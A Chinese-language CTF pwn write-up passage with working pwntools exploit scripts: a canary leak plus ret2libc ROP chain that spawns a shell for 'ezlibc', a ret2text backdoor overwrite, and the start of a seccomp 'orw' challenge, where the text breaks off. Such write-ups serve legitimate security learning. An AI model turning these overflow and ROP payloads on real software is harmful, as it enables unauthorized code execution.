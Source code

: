 CrazyCat-pwn
![[Pasted image 20250121140940.png]]
~~做了两题就去春秋杯了，结果春秋杯爆零，还不如把这个做完QAQ。~~
# ezlibc
![[Pasted image 20250121141259.png]]
一道简单的`ret2libc`的题目，开启`canary`，得先想办法泄漏`canary`。
![[Pasted image 20250121141418.png]]
![[Pasted image 20250121141711.png]]
虽然有`printf`函数，但不能直接泄漏地址，但`printf`会一直输出直到`\x00`，那么把`canary`前填充满`deadbeef`就能泄漏`canary`。
泄漏`canary`后在构造ROP泄漏地址，获取`libc`基址并重新调用`read`函数进行第三次溢出来获取`shell`。
exp:
```python
from pwn import *

# from LibcSearcher import LibcSearcher

from wstube import websocket

  

context.log_level = 'debug'

local = True

if local:

p = process('./ezlibc')

pwnlib.gdb.attach(p, 'b bug')

else:

p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471c6-5bcb-772c-b85c-78d6ad4f3ed1')

  

elf = ELF('./ezlibc')

  

payload = b'a' * (0x29)

p.send(payload)

p.recvuntil(b'a' * 0x29)

canary = u64(b'\x00' + p.recv(7))

log.success('canary: ' + hex(canary))

  

rdi = 0x400843

puts_got = elf.got['puts']

puts_plt = elf.plt['puts']

bug = 0x4006e7

payload = b'a' * (0x28) + p64(canary) + b'a' * 8 + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(bug)

p.recvuntil(b'closer to the key')

p.send(payload)

  

p.recvuntil(b'keep trying\n')

puts_addr = u64(p.recv(6).ljust(8, b'\x00'))

  

'''libc = LibcSearcher('puts', puts_addr)

base = puts_addr - libc.dump('puts')

system = base + libc.dump('system')

binsh = base + libc.dump('str_bin_sh')'''

  

ret = 0x40059e

log.success('puts_addr: ' + hex(puts_addr))

base = puts_addr - 0x80970

system = base + 0x4f420

binsh = base + 0x1b3d88

  

payload = b'a' * (0x28) + p64(canary) + b'a' * 8 + p64(ret) + p64(rdi) + p64(binsh) + p64(system)

p.send(payload)

p.sendafter(b'closer to the key', b'a')

  

p.interactive()
```
shell:
![[Pasted image 20250121160630.png]]
# ret2text
简单的`ret2text`类型题目
找到溢出点，`backdoors`，构造`payload`即可。
exp:
```python
from pwn import *

# from LibcSearcher import LibcSearcher

from wstube import websocket

  

context.log_level = 'debug'

local = False

if local:

p = process('./1')

pwnlib.gdb.attach(p, 'b main')

else:

p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471ee-7eac-765f-ae48-e2b9fb68618e')

  

backdoor = 0x40115a

payload = b'a' * (0xa + 8) + p64(backdoor)

p.send(payload)

p.interactive()
```
shell:
![[Pasted image 20250121161101.png]]

# sandbox
一道简单的orw类型题目。
seccomp后可以看到只禁用了execve。
![[Pasted image 20250121161542.png]]
可以构造最普通的orw。
![[Pasted image 20250121161640.png]]
![[Pasted image 20250121161654.png]]
可以看见开启了canary，有栈溢出和格式化字符串漏洞，那么
# 宇宙射线
